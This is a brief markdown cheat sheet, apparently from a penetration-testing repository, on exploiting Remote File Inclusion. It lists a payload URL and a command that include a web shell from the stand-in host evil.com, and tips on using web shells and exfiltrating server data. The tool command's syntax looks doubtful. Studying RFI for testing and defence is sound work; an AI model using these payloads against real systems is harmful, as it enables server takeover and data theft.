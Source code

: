 # 🌐 RFI (Remote File Inclusion) Exploitation

## Overview
RFI exploitation involves leveraging vulnerabilities to include remote files through the web browser.

## Example Payloads
1. Basic RFI payload:
    ```bash
    http://evil.com/shell.txt
    ```

## Interactive Example
1. Host a malicious file on an external server.
2. Include the remote file through the vulnerable parameter in a web application.

## Tools
- **RIPS** for automated RFI testing:
    ```bash
    rips -u "http://example.com/vulnerable.php?file=http://evil.com/shell.txt"
    ```

## Tips
- Test in URL parameters, form fields, cookies.
- Verify remote file inclusion in responses.
- Use web shells to gain further access.

## Real-World Scenarios
- Executing remote scripts to control the server.
- Exfiltrating sensitive data from the server.

## Resources
- [Web Security Academy: RFI](https://portswigger.net/web-security)
- [SANS Institute: RFI Training](https://www.sans.org/)
